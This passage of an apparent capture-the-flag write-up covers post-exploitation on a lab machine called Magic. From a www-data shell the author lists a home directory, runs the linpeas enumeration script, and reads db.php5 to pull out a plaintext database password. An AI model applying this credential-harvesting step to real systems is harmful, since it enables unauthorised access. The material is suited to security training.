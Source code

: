 ```ruby
www-data@ubuntu:/home/theseus$ ls -la
total 84
drwxr-xr-x 15 theseus theseus 4096 Apr 16 02:58 .
drwxr-xr-x  3 root    root    4096 Oct 15  2019 ..
-rw-------  1 theseus theseus 7334 Apr 15 23:50 .ICEauthority
lrwxrwxrwx  1 theseus theseus    9 Oct 21  2019 .bash_history -> /dev/null
-rw-r--r--  1 theseus theseus  220 Oct 15  2019 .bash_logout
-rw-r--r--  1 theseus theseus   15 Oct 21  2019 .bash_profile
-rw-r--r--  1 theseus theseus 3771 Oct 15  2019 .bashrc
drwxrwxr-x 13 theseus theseus 4096 Mar 13 05:57 .cache
drwx------ 13 theseus theseus 4096 Oct 22  2019 .config
drwx------  3 theseus theseus 4096 Oct 21  2019 .gnupg
drwx------  3 theseus theseus 4096 Oct 21  2019 .local
drwx------  2 theseus theseus 4096 Aug 21 22:10 .ssh
drwxr-xr-x  2 theseus theseus 4096 Oct 22  2019 Desktop
drwxr-xr-x  2 theseus theseus 4096 Oct 22  2019 Documents
drwxr-xr-x  2 theseus theseus 4096 Oct 22  2019 Downloads
drwxr-xr-x  2 theseus theseus 4096 Oct 22  2019 Music
drwxr-xr-x  2 theseus theseus 4096 Oct 22  2019 Pictures
drwxr-xr-x  2 theseus theseus 4096 Oct 22  2019 Public
drwxr-xr-x  2 theseus theseus 4096 Oct 22  2019 Templates
drwxr-xr-x  2 theseus theseus 4096 Oct 22  2019 Videos
-r--------  1 theseus theseus   33 Aug 21 20:47 user.txt
```

Lets run [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite), for further enumeration

```css
[+] Interesting writable Files
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-files
/var/www/Magic/db.php5
/var/www/Magic/images
/var/www/Magic/images/fulls
/var/www/Magic/images/uploads
/var/www/Magic/index.php
/var/www/Magic/login.php
/var/www/Magic/logout.php
/var/www/Magic/upload.php
/var/www/Magic/assets
/var/www/Magic/assets/sass
/var/www/Magic/assets/sass/libs
/var/www/Magic/assets/css
/var/www/Magic/assets/css/images
/var/www/Magic/assets/js
/var/www/Magic/assets/webfonts
/var/www/Magic/index.php
```

We see a db.php5 file. Checking the content db.php5

```bash
www-data@ubuntu:/dev/shm$ cd /var/www/Magic/
www-data@ubuntu:/var/www/Magic$ cat db.php5
<?php
class Database
{
    private static $dbName = 'Magic' ;
    private static $dbHost = 'localhost' ;
    private static $dbUsername = 'theseus';
    private static $dbUserPassword = 'iamkingtheseus';
```
